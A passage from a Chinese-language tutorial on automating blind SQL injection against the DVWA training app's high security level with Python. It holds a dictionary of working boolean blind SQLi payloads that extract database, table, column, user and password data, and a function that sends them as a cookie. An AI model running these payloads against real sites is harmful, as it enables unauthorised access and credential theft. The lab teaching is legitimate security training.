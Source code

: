 ```
pip install beautifulsoup4 requests
```

# 查询词典

在这种情况下，我将采取与脚本相同的方法进入[中等安全级别](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)，这样我们将把所有的查询保存在一个字典中。
这是理解如何通过这一关最关键的部分，所以这里是我们的字典:

```
queries = {
    "db_length": "1' AND LENGTH(DATABASE()) = {} #",
    "db_name": "1' AND SUBSTRING(DATABASE(), {}, 1) = '{}' #",
    "n_tables": "1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_type='base table' AND table_schema='{}')='{}' #",
    "tables": "1' AND SUBSTR((SELECT table_name from information_schema.tables WHERE table_type='base table' AND table_schema='{}' {} LIMIT 1),{},1)='{}' #",
    "n_columns": "1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='{}')='{}' #",
    "columns": "1' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='{}' LIMIT {}, 1),{},1)='{}' #",
    "users": "1' AND SUBSTR((SELECT {} FROM {} LIMIT {}, 1),{},1)='{}' #",
    "pwd_len": "1' AND LENGTH((SELECT {} FROM {} WHERE {}='{}'))={} #",
    "pwd": "1' AND SUBSTR((SELECT {} FROM {} WHERE {}='{}' LIMIT 1), {}, 1)='{}' #"
}
```

因为我们将查询作为 cookie 传递，所以不需要像在第一级中那样编码 hashtag。

# 编辑获取查询结果函数

我们要做的最后一个重要改变是对 get_query_result 函数的改变，不同于我们在上一级中看到的，我们必须使用 [HTTP GET](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods) 请求，并将 id 作为 cookie 传递。
如你所见，这非常简单:

```
def get_query_result(s, sqli_blind_url, query, *args):
    try:
        concrete_query = query.format(*args)
        response = s.get(sqli_blind_url, cookies={"id": concrete_query})
        parser = DVWASQLiResponseParser(response)

        return parser.check_presence("exist")
    except AttributeError as e:
        return False
```

现在我们终于准备好运行脚本了！

# 第 4 步:运行脚本
